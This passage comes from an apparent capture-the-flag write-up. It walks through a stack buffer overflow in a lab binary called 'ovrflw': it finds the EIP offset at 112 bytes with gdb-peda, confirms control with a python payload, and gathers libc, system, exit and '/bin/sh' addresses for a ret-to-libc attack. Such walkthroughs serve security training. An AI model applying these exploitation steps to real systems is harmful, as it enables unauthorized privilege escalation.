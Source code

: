 I see that the program crashed at `0x41384141` from the message at the bottom. I’ll see this same value in the EIP register if I look up a bit:

```

EIP: 0x41384141 ('AA8A')

```

I can feed that value, either as hex or as a string, into `pattern_offset` to get the offset in my buffer to the address that overwrites EIP:

```

gdb-peda$ pattern_offset AA8A
AA8A found at offset: 112
gdb-peda$ pattern_offset 0x41384141
1094205761 found at offset: 112

```

I can show this works by running:

```

gdb-peda$ run `python -c 'print "A"*112 + "BBBB"'`

```

That will input 112 As, and then 4 Bs. It crashes:

```

Stopped reason: SIGSEGV
0x42424242 in ?? ()

```

The address is 0x42424242, which is BBBB.

### ovrflw Ret to libc

I’ll find an address of libc:

```

www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75f8000)

```

And I can get offsets for system, exit, and bin/sh:

```

www-data@october:/dev/shm$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -e " system@" -e " exit@"
   139: 00033260    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
  1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
www-data@october:/dev/shm$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/" 
 162bac /bin/sh
 164b10 /bin/csh

```
